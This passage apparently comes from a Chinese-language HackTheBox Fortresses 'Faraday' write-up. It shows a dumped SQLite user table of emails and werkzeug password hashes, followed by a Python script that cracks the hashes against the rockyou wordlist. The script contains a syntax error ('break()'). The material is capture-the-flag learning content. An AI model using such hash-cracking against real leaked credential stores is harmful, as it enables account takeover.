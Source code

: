 并检测文件类型

```shell
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ file database.db
database.db: SQLite 3.x database, last written using SQLite version 3016002, file counter 248, database pages 6, cookie 0x3, schema 4, UTF-8, version-valid-for 248
```

那么加载数据库，在其中得到表 `user_model`

| id  |         email          |   username    |                                      password_hash                                       |
| :-: | :--------------------: | :-----------: | :--------------------------------------------------------------------------------------: |
|  1  | `admin@faradaysec.com` | administrator | sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f |
|  2  | `octo@faradaysec.com`  |     octo      | sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258 |
|  3  | `pasta@faradaysec.com` |     pasta     | sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023 |
|  4  | `root@faradaysec.com`  |     root      | sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337 |
|  5  |    `pepe@gmail.com`    |     pepe      | sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d |
|  6  |   `nobody@gmail.com`   |    nobody     | sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1 |
|  7  |     `end@end.com`      |      end      | sha256$ZK9O08XmvQS7yUxT$ab8718152db6a666a1c696c0fabd0d1dffc8ac3c035025b446a9ad89b6a5dbe2 |
|  8  |  `mauricio@gmail.com`  |   amauricio   | sha256$zlDGBt3wrcdeNnoy$b07122a1146271d3fed91a766981823ba0b83665998fc5f9eb9d823f0ab6e0f8 |
|  9  | `mauricio2@gmail.com`  |     admin     | sha256$x1yTXRJf7lUmsKqC$f792d48616a6206b61572ecb9d42de79615157a7f143db4f77ad5cb4486fe022 |
| 10  |   `admin@gmail.com`    |   mauricio    | sha256$siz5GLNZREmRFSi0$42db32ea6e402dda2cb2f166da353968abec40a606e1fd45cc03c66599b408e1 |
| 11  |     `test@mail.ru`     |     test      | sha256$Vb6xb7xGgcnBEq7B$1540d90dca310622914e0200cbd5c648fee0d954db2cb0279cf44753e502f536 |
| 12  |     `test@htb.com`     |    test123    | sha256$2YzqHS2IjQSNNhAM$b828806ba700907ccaec5a7dc11c6e954bf88f1a1420c2f09d51d12f562787fb |
| 13  |  `123123@123123.com`   |    123123     | sha256$wdfHwGKUjaSoLDZt$97b51fd680f392c2528ad610e0f47a112b15742bce46952601bb5823b1d27b64 |
| 14  | `123123123111@123.com` | 123123123111  | sha256$mXJ8Ayy8Yd9u1bKS$771654b3d3502fa462eeddc565e450f0987665a3c03540a0a39dd4f19e0613f5 |
| 15  |  `abc12345123@a.com`   |  abc12345123  | sha256$PnWSUk3MlMz9urx9$cee45d83952be1658c914ed4316727309e01a61284650ccedaec2ad48cf7bd45 |

结合服务端采用的是

```python
from werkzeug.security import generate_password_hash, check_password_hash
```

于是编写脚本进行爆破

```python
from werkzeug.security import check_password_hash

hashes = open("hashs.txt", "r")

for hash in hashes:
    hash = hash.strip()
    user = hash.split(":")[0]
    hash = hash.split(":")[1]

    with open("/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt", "r", errors="ignore") as file:
        for line in file:
            password = line.strip()
            if check_password_hash(hash, password):
                print(f"Credencial valida: {user}:{password}")
                break()
```
